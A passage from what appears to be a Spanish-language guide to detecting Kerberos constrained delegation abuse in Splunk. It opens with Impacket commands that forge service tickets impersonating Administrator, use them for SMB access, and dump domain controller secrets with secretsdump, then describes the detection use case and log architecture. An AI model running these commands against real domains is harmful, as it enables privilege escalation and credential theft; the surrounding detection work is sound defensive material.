 ```bash
getST.py -spn CIFS/webapp.soporte.htb -impersonate Administrator soporte.htb/srv-web$ -hashes :aad3b435b51404eeaad3b435b51404ee

# 9. Usar el ticket para acceso
export KRB5CCNAME=$(pwd)/Administrator.ccache
smbclient.py -k -no-pass soporte.htb/Administrator@webapp.soporte.htb

# 10. Si el servicio autorizado es en el DC, escalar a Domain Admin
getST.py -spn LDAP/dc.soporte.htb -impersonate Administrator soporte.htb/srv-web$ -hashes :aad3b435b51404eeaad3b435b51404ee
secretsdump.py -k -no-pass soporte.htb/Administrator@dc.soporte.htb
```

---

## 📋 Caso de Uso Completo Splunk

### 🎯 Contexto empresarial y justificación

**Problema de negocio:**
- Constrained Delegation permite ataques de suplantación de identidad mediante S4U2Self/S4U2Proxy, resultando en acceso no autorizado a servicios críticos
- Abuso de Alternative Service Names permite escalada de HTTP a CIFS/LDAP, ampliando el impacto del ataque
- Una cuenta de servicio comprometida con delegación puede suplantar a cualquier usuario, incluyendo Domain Admins
- Costo promedio de compromiso de servicio con delegación: $95,000 USD

**Valor de la detección:**
- Identificación inmediata de abuso S4U2Self/S4U2Proxy mediante análisis de TicketOptions
- Detección de patrones de suplantación de identidad en tiempo real
- Protección contra escalada de privilegios via Alternative Service Names
- Cumplimiento con controles de protección de identidad privilegiada

### 📐 Arquitectura de implementación

**Prerequisitos técnicos:**
- Splunk Enterprise 8.1+ o Splunk Cloud
- Universal Forwarders en Domain Controllers y servidores con delegación
- Windows TA v8.5+ con configuración detallada de Event 4769
- Auditoría Kerberos habilitada para TGS con opciones S4U
- Lookup tables de servicios autorizados para delegación

**Arquitectura de datos:**
```
[DCs + Delegation Servers] → [Universal Forwarders] → [Indexers] → [Search Heads]
       ↓                            ↓                       ↓
[Event 4769 S4U]           [WinEventLog:Security]    [Index: wineventlog]
[TicketOptions Analysis]           ↓                       ↓
[Service Name Changes]      [Real-time processing]   [Delegation Alerting]
```
